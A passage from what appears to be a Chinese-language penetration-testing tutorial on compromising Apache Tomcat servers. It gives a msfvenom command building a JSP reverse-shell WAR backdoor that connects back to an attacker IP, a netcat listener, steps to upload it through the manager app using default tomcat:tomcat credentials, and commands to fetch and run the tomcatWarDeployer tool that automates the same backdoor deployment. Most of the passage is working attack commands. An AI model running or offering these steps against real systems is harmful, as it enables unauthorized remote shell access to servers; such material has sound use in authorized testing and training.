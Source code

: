 结果你可以观察到，我们有目标机器的meterpreter会话。

## 2.生成.war格式后门

![img](https://i0.wp.com/1.bp.blogspot.com/-4O9R4wjjoB4/XBUvQVNdLQI/AAAAAAAAbvw/TfvX7VlF_C4caJVehuBBi66gwO47DjoLACLcBGAs/s1600/4.png?w=687&ssl=1)

我们可以使用msfvenom为java / jsp有效负载生成.war格式后门，您只需按照下面给出的语法创建.war格式文件然后运行netcat listener。

**语法：** msfvenom -p [payload] LHOST = [Kali Linux IP] LPORT = [1234] -f [文件格式]> [文件名]

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.101 LPORT=1234 -f war > shell.war
nc -lvp 1234
```

![img](https://i2.wp.com/3.bp.blogspot.com/-9ylL7iOhRTw/XBUvQlk5jSI/AAAAAAAAbv4/poIBBGcmtIcptLomyNTyNJefyJlPfuJMQCLcBGAs/s1600/5.png?w=687&ssl=1)

 

现在使用**tomcat：tomcat**作为用户名：密码登录tomcat manager应用程序。管理员仪表板将欢迎您上传.war文件。 

正如您所看到的那样，浏览器中的恶意shell.war文件将在图像中突出显示。只要您上传文件，就会在应用程序表中看到文件的/ path条目

要执行.war文件，必须单击Application表中提到的/.war文件路径。或者您可以直接浏览*http：// target_IP：port / file_name*。

一旦执行文件，您将通过netcat获得反向连接。

![img](https://i2.wp.com/4.bp.blogspot.com/-PqRVdSCmBj0/XBUvRZVgiWI/AAAAAAAAbv8/kOyp19wpH4wONm4QgjsZ8vageLgAXUKIgCLcBGAs/s1600/6.png?w=687&ssl=1)

Booom！我们再一次访问远程webshell。

![img](https://i2.wp.com/2.bp.blogspot.com/-03aPEVm_yYQ/XBUvRvcr0QI/AAAAAAAAbwA/PvZl1QqsR28JJy1Q0W9PPmqpskU4EZQ8gCLcBGAs/s1600/7.png?w=687&ssl=1)

## 3.Tomcat War Deployer Script

这是一个渗透测试工具，旨在利用Apache Tomcat凭证自动生成和部署JSP后门，以及之后调用它并提供漂亮的shell（通过web gui，绑定在远程机器上的侦听端口或作为反向tcp有效负载）连接到对手）。

实际上，它会动态生成JSP后门WAR包，并使用pentester提供的有效HTTP身份验证凭据（或者自定义的凭证，最终我们都喜欢tomcat：tomcat）将其部署在Apache Tomcat Manager应用程序中。

*您可以从这里下载：https：//github.com/mgeeky/tomcatWarDeployer*

```
git clone https://github.com/mgeeky/tomcatWarDeployer
cd tomcatWarDeployer
ls
```



![img](https://i2.wp.com/1.bp.blogspot.com/-BRXsz5-2X2E/XBUvR9YiQUI/AAAAAAAAbwE/bSjKDxAMqWkW42vIiTMrjwOLYWeaR3M0ACLcBGAs/s1600/8.png?w=687&ssl=1)

现在按照语法来利用目标机器，而无需手动上传.war文件。

**语法：** ./ tomcatWarDeployer.py -U [usrename] -p [password] -H [Kali Linux IP] -p [监听端口] [target_IP]：[tomcat_port]

